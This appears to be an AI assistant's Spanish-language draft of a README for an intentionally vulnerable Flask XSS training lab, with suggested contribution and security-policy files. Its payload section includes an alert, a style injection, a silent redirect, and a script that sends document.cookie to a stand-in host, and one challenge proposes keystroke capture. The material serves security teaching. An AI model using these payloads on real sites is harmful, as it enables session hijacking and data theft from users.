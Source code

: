 Aquí tienes un **README.md** profesional, visualmente atractivo y educativo para tu repositorio de GitHub del XSS Lab:

```markdown
# 🛡️ XSS Lab Interactive  
*Plataforma colaborativa para aprender y practicar vulnerabilidades XSS de forma segura y controlada*

![GitHub license](https://img.shields.io/github/license/infernoidpl4y/XSSLab)  
![Python](https://img.shields.io/badge/Python-3.x-blue)  
![Flask](https://img.shields.io/badge/Flask-2.x-orange)  
![OWASP](https://img.shields.io/badge/OWASP-Top_10-red)  

---

## 🎯 ¿Qué es XSS Lab?
Un entorno de aprendizaje práctico para estudiantes y profesionales de ciberseguridad, diseñado para **entender y practicar la explotación de vulnerabilidades XSS (Cross-Site Scripting)** en un entorno seguro y controlado.

> "No es solo destruir... es entender cómo funciona la seguridad web"  
> - InfernoidPl4y

---

## 🔧 Características Principales
- ✅ **Vulnerable intencionalmente** para pruebas de seguridad  
- 📚 Entorno controlado para experimentación segura  
- 💬 Sistema de publicaciones con inyección XSS en campo de texto  
- 🎨 Ejemplo predefinido: `!inject` para payloads básicos  
- 📉 Datos reiniciados automáticamente cada 48 horas  
- 🌐 Desplegable en plataformas como PythonAnywhere  
- 🤝 Diseñado para aprendizaje comunitario

---

## 📦 Tecnologías Utilizadas
- 🐍 **Python** (Flask framework)
- 💻 **HTML/CSS** (Frontend interactivo)
- 🔐 Enfoque en OWASP Top 10 (XSS específicamente)

---

## 🚀 Instalación Local

### Requisitos:
- Python 3.x
- pip (Python Package Manager)

### Pasos:
```bash
# Clona el repositorio
git clone https://github.com/infernoidpl4y/XSSLab.git

# Accede al directorio
cd XSSLab

# Instala dependencias
pip install -r requirements.txt

# Ejecuta la aplicación
python app.py
```

---

## 🧪 Cómo Usarlo

1. Abre el navegador en `http://localhost:5000`
2. Crea una publicación con código XSS:
   ```html
   <script>alert('¡XSS básico!')</script>
   ```
3. **Ejemplo rápido:** Escribe `!inject` en el campo XSS para ver un payload predefinido
4. Observa el comportamiento y experimenta con diferentes payloads

---

## ⚠️ Aviso Importante
- **Solo para fines educativos**
- **No introduzcas información sensible**
- **Los datos se reinician periódicamente**

---

## 🧠 Ejemplos de Payloads para Pruebas

### Básico
```html
<script>alert('XSS')</script>
```

### Estilo Visual
```html
<style>
  body { background: red; transition: all 2s; }
</style>
```

### Redirección Silenciosa
```html
<script>window.location.href='https://example.com'</script>
```

### Captura de Cookies (Ejemplo académico)
```html
<script>
  fetch('https://tu-servidor.com/log?data='+document.cookie)
</script>
```

---

## 🧰 Desafíos Recomendados

### Nivel Principiante
- Crea una alerta que salte al cargar la página

### Nivel Intermedio
- Modifica el estilo de otra publicación

### Nivel Avanzado
- Inyecta un script que capture entradas del teclado

---

## 📸 Captura de Pantalla
![XSS Lab Demo](https://via.placeholder.com/800x500?text=XSS+Lab+Interactive+Demo)

---

## 🤝 Contribuciones
¡Las mejoras y contribuciones son bienvenidas!  
Por favor lee el [CONTRIBUTING.md](CONTRIBUTING.md) para más detalles.

---

## 📄 Licencia
MIT License - ver [LICENSE](LICENSE) para detalles

---

## 📬 Contacto
InfernoidPl4y - infernoidpl4y@gmail.com  
Portfolio: [infernoidpl4y.netlify.app](https://infernoidpl4y.netlify.app)
```

### Estructura recomendada:
1. **Licencia MIT** - Archivo `LICENSE`
2. **Guía de Contribución** - Archivo `CONTRIBUTING.md` con:
   ```markdown
   # Guía de Contribución para XSS Lab

   ## 🤝 Cómo Contribuir
   1. Haz fork del repositorio
   2. Crea una rama (`git checkout -b feature/`)
   3. Realiza tus cambios
   4. Haz commit (`git commit -m 'Agrega...'`)
   5. Sube tus cambios (`git push origin feature/`)
   6. Abre un Pull Request

   ## 📋 Estándares de Código
   - Usa PEP8 para estilos en Python
   - Comenta claramente los cambios de seguridad
   - Mantén el enfoque educativo

   ## 📈 Propuestas de Mejora
   - Agregar niveles de dificultad
   - Implementar sistema de puntuación
   - Incluir payloads específicos para diferentes contextos XSS
   ```

### Recomendación adicional:
Agrega un archivo `SECURITY.md` con:
```markdown
# Política de Seguridad para XSS Lab

## 🛡️ Propósito de Seguridad
Este proyecto está diseñado estrictamente para **educación y formación en seguridad web**. El código contiene vulnerabilidades intencionales para permitir el aprendizaje práctico.

## ❗ Advertencia Crítica
- **No** uses este proyecto en entornos de producción
- **No** almacenes información sensible en este laboratorio
- **No** intentes usar esta herramienta para actividades maliciosas

## 📢 Reporte de Vulnerabilidades
Si encuentras vulnerabilidades reales en el sistema (fuera de las intencionales):
- Correo: infernoidpl4y@gmail.com
- GitHub Issues: [Crea un issue](https://github.com/infernoidpl4y/XSSLab/issues)
```

Este README:
1. Tiene un diseño visual atractivo con emojis y badges
2. Explica claramente el propósito educativo
3. Proporciona ejemplos prácticos
4. Incluye advertencias de seguridad importantes
5. Es fácil de seguir para nuevos usuarios
6. Está estructurado para comunidad y contribuyentes

¿Quieres que te ayude a crear la página de GitHub Pages o documentación adicional para este proyecto? 😊
